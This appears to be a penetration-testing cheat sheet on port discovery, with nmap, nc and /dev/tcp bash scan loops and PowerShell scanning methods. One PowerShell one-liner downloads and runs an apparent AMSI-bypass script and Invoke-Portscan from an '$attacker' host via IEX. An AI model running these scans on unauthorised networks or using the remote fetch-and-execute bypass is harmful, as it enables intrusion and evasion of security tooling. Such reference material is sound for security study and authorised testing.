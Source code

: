 ```console
nmap -Pn --top-ports 50 --open -oA nmap/initial <ip or cidr>
```

### Ports discovery (without nmap)

#### nc + bash

If you get in a machine that doesn't have nmap installed, you can do a basic discovery of (for example), top 10 ports open in 192.168.30 by doing:

```bash
top10=(20 21 22 23 25 80 110 139 443 445 3389); for i in "${top10[@]}"; do nc -w 1 192.168.30.253 $i && echo "Port $i is open" || echo "Port $i is closed or filtered"; done
```

#### /dev/tcp/ip/port or /dev/udp/ip/port

Alternatively, is possible to do the same than above but by using the special dev files `/dev/tcp/ip/port` or `/dev/udp/ip/port` (for example nc is not found):

```bash
top10=(20 21 22 23 25 80 110 139 443 445 3389); for i in "${top10[@]}"; do (echo > /dev/tcp/192.168.30.253/"$i") > /dev/null 2>&1 && echo "Port $i is open" || echo "Port $i is closed"; done
```

Taking these last  examples, is straightforward to create a dummy script for scan a hole /24 net (for example):

```bash
#!/bin/bash
subnet="192.168.30"
top10=(20 21 22 23 25 80 110 139 443 445 3389)
for host in {1..255}; do
    for port in "${top10[@]}"; do
        (echo > /dev/tcp/"${subnet}.${host}/${port}") > /dev/null 2>&1 && echo "Host ${subnet}.${host} has ${port} open" || echo "Host ${subnet}.${host} has ${port} closed"
    done
done
```

### Powershell

#### By using Invoke-PortScan (PowerSploit)

```powershell
$topports="50";$target="192.168.42.43,192.168.42.44,172.16.44.42,172.16.1.1,172.16.255.253";$attacker="192.168.42.42";IEX(New-Object Net.Webclient).downloadString("http://$attacker/4msibyp455.ps1");IEX(New-Object Net.Webclient).downloadString("http://$attacker/Invoke-Portscan.ps1");Invoke-Portscan -Hosts "$target" -TopPorts "$topports"
```

#### Leverage Native Powershell

```powershell
$target = '192.168.42.42';$scanPorts = @('80', '8080', '443', '8081', '3128', '25', '5985', '5986', '445', '139'); foreach($port in $scanPorts){Test-NetConnection -ComputerName $target -InformationLevel "Quiet" -Port $port}
```
